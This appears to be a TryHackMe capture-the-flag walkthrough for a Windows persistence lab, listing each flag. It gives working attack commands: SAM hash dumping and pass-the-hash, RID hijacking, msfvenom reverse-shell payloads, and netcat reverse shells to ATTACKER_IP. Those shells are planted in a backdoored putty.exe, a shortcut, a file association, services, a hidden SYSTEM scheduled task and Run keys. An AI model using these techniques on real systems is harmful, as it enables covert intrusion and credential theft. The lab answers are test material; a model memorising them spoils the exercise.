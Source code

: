 # Windows Local Persistence

### Tampering With Unprivileged Accounts
- Insert flag1 here<br />
We can check that the server has WinRM enabled with the command `Test-WSMan`. <br />
First, add thmuser1 to the backup group: `net localgroup "Backup Operators" thmuser1 /add`, and to the winRM group: `net localgroup "Remote Management Users" thmuser1 /add` Now, we need to disable LocalAccountTokenFilterPolicy, strips any local account of its administrative privileges when logging in remotely. To do that, run `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`. Now we can download password hashes: 

      reg save hklm\system system.bak
      reg save hklm\sam sam.bak
      download system.bak
      download sam.bak
  
And dump them:

      python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
Then, we perform a pass-the-hash attack: `evil-winrm -i 10.10.62.15 -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3`. <br /> Flag is `THM{FLAG_BACKED_UP!}`
- Insert flag2 here<br />
Run `secedit /export /cfg config.inf` to export the configuration file, then open it and edit it by adding our user to the SeBackupPrivilege and SeRestorePrivilege lines: <br />
![image](https://github.com/user-attachments/assets/fa5d5842-8547-4594-89a2-3e218ce924b2)<br />
Now load the configuration back into the system:

      secedit /import /cfg config.inf /db config.sdb
      
      secedit /configure /db config.sdb /cfg config.inf
However, the user still can't log over winRM because it is not in the "Remote Management Users" group.  Instead of adding the user to the Remote Management Users group, we'll change the **security descriptor** associated with the WinRM service to allow thmuser2 to connect. So, run `Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI` on powershell: <br />
![image](https://github.com/user-attachments/assets/a7c6d479-ed38-4560-a179-8fd3d6132b63)<br />
We can now log in the account from our attackbox whenever we want: <br />
![image](https://github.com/user-attachments/assets/ad1387a5-522f-4272-8056-899db8a941dd)<br />
`THM{IM_JUST_A_NORMAL_USER}`

- Insert flag3 here<br />
The SAM is restricted to the SYSTEM account only, so even the Administrator won't be able to edit it. To run Regedit as SYSTEM, we will use psexec: `.\PsExec64.exe -i -s regedit`<br />
Go to HKLM\SAM\SAM\Domains\Account\Users\, and click on 0x3F2, which is the hexadecimal value for 1010(thmuser3 RID).<br />
From there, the value "F" holds the user RID<br />
![image](https://github.com/user-attachments/assets/a2827e8c-f267-40c2-828e-843f93698cda)<br />
Notice that the RID is stored in little endian. The hexadecimal for 500 is 0x1F4, so we will substitute thmuser3's RID with F4 01. Now, as described in the task, log in thmuser3 via RDP: `xfreerdp /u:thmuser3 /p:Password321 /v:10.10.62.15`. Finally, get the flag: <br />
![image](https://github.com/user-attachments/assets/1ad110d7-35a3-4282-abcc-588f2e9f763f)<br />
`THM{TRUST_ME_IM_AN_ADMIN}`

### Backdooring Files
- Insert flag5 here <br />
You can easily plant a payload of your preference in any .exe file with msfvenom. The binary will still work as usual but execute an additional payload silently by adding an extra thread in your binary. To create a backdoored putty.exe, we can use the following command:

            msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
Another way is to change the shortcut file of a .exe in the desktop to point to a script of our own. et's create a simple Powershell script in C:\Windows\System32. The script will execute a reverse shell and then run calc.exe: 

            Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
            
            C:\Windows\System32\calc.exe
The final target for the shortcut is: `powershell.exe -WindowStyle hidden C:\Windows\System32\scirpt.ps1`. `-windowstyle hidden` is important because it won't open a powershell window, which might look a bit sus. 
So change the shortcut, open a netcat listener, and run the calculator. Get the flag:<br />
![image](https://github.com/user-attachments/assets/9a7f08a4-cd60-49cb-95c0-d72e83b2465b)<br />
`THM{NO_SHORTCUTS_IN_LIFE}`

By the way, WHERE THE HELL IS FLAG 4!?
- Insert flag6 here<br />
First, let's create a ps1 script with the following content and save it to C:\Windows\backdoor2.ps1

            Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.11.85.53 4448"
            C:\Windows\system32\NOTEPAD.EXE $args[0]

Now let's change the registry key to run our backdoor script in a hidden window. Move to HKLM\Software\Classes\shell\open\command and edit it: <br />
![image](https://github.com/user-attachments/assets/baa53c54-d822-4755-aa35-31b2d3bbe472)<br />
Finally get the flag: <br />
![image](https://github.com/user-attachments/assets/909c44cc-eff8-41ad-9411-cf8c3bb38762)<br />
`THM{TXT_FILES_WOULD_NEVER_HURT_YOU}`

### Abusing Services
- Insert flag7 here<br />
Let's create a reverse shell with the format of a windows service, using msfvenom: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe`. <br />
You can then copy the executable to your target system, say in C:\Windows and point the service's binPath to it. To transfer the payload, we can open an http server with python: `python3 -m http.server 8000`, then donwload it from powershell using certutil: `certutil -urlcache -split -f http://10.11.85.53/rev-svc.exe rev-svc.exe`<br />

At this point we can create a service pointing to this payload, scheduled to start every time the machine is started: 

      sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
Now open a netcat listener, and start the service: 

      sc.exe start THMservice2
![image](https://github.com/user-attachments/assets/75934e7d-2541-45c8-b733-0a6d9b2d0a7f)<br />
`THM{SUSPICIOUS_SERVICES}`

- Insert flag8 here<br />
I dont really want to create a different payload, to configure the existing service, just run: `sc.exe config THMservice3 binPath= "C:\Windows\rev-svc.exe" start= auto obj= "LocalSystem"`, and do the same as before to get the flag: <br />
![image](https://github.com/user-attachments/assets/8c4c08cc-1e1c-458e-a4b2-f53a1298d7e7)<br />
`THM{IN_PLAIN_SIGHT}`

### Abusing Scheduled Tasks 
- Insert flag9 here<br />
The following command: `schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM` creates a scheduled task that runs every minute, named THM-TaskBackdoor.<br />
The /ru option indicates that the task will run with SYSTEM privileges. now simply open a listener on port 4449 and wait a few seconds: <br />
![image](https://github.com/user-attachments/assets/de18b9cf-e4b9-436b-9836-a18fbd623aa3)<br />
Apparently THM wants me to hide the sheduled task.. damn it. <br />
To hide our scheduled task, we can make it invisible to any user in the system by deleting its **Security Descriptor** (SD). The security descriptor is simply an ACL that states which users have access to the scheduled task. Deleting the SD is equivalent to disallowing all users' access to the scheduled task, including administrators.. Run `c:\tools\pstools\PsExec64.exe -s -i regedit` to open the registry. Move to `Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\THM-TaskBackdoor`<br />
![image](https://github.com/user-attachments/assets/f08ca4ac-c3ef-47d6-a428-f03b2b3e572e)<br />
Great:<br />
![image](https://github.com/user-attachments/assets/5fc7b4bb-8937-4507-9b46-c8f0492d254c)<br />
`THM{JUST_A_MATTER_OF_TIME}`

### Logon Triggered Persistence
- Insert flag10 here<br />
Each user has a folder under `C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` where you can put executables to be run whenever the user logs in. An attacker can achieve persistence just by dropping a payload in there. If we want to force all users to run a payload while logging in, we can use the folder under `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`<br />
Generate a .exe payload using msfvenom: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe`. <br />
Transfer it to the target machine: <br />
![image](https://github.com/user-attachments/assets/9e30d61a-ff45-4d6a-9558-b319292bb210)<br />
Now log off the machine<br />
![image](https://github.com/user-attachments/assets/ea9cc8d4-82bb-4d0b-ac2e-10d650e855f5)<br />
and log back(you can reconnect from the splitview in THM, or you can use RDP):<br />
![image](https://github.com/user-attachments/assets/1fa42aee-82fc-4586-bd43-fb3f9ed22a6d)<br />
`THM{NO_NO_AFTER_YOU}`
- Insert flag11 here<br />
Move the revshell we used earlier in C:\Windows: `move revshell.exe C:\Windows`. Now use `PsExec64.exe -i -s regedit` to open the registry, edit it this way: <br />
![image](https://github.com/user-attachments/assets/b443a68d-c738-49bc-b13a-6cd393bf3342)<br />
Now sign out and reconnect again (HKLM\Software\Microsoft\Windows\CurrentVersion\Run is an executable that every user will run on log on)<br />
![image](https://github.com/user-attachments/assets/be75f6a3-38b0-4701-b489-1c08ed2d5b43)<br />
`THM{LET_ME_HOLD_THE_DOOR_FOR_YOU}`
- Insert flag12 here<br />
Now use `C:\tools\pstools\PsExec64.exe -i -s regedit` to open the registry. <br />
![image](https://github.com/user-attachments/assets/c8f6bd0a-1bfe-495e-a0aa-4f0469b7e667)<br />
Open a listener, sign out and login again: <br />
![image](https://github.com/user-attachments/assets/bdade126-b433-4e3c-9564-9c7027a54dbc)<br />
`THM{I_INSIST_GO_FIRST}`
- Insert flag13 here<br />
Open the registry again, this time edit it by creating an "Expandable String value": <br />
![image](https://github.com/user-attachments/assets/cba6ddbc-0b22-411a-bc17-e7aa0e4ca99d)<br />
The string name is: `UserInitMprLogonScript`. <br />
Now again open a nc lister, log out and log in again:<br />
`THM{USER_TRIGGERED_PERSISTENCE_FTW}`
### Backdooring the Login Screen / RDP
- Insert flag14 here<br />
- Insert flag15 here<br />

### Persisting Through Existing Services
- Insert flag16 here<br />
- Insert flag17 here<br />

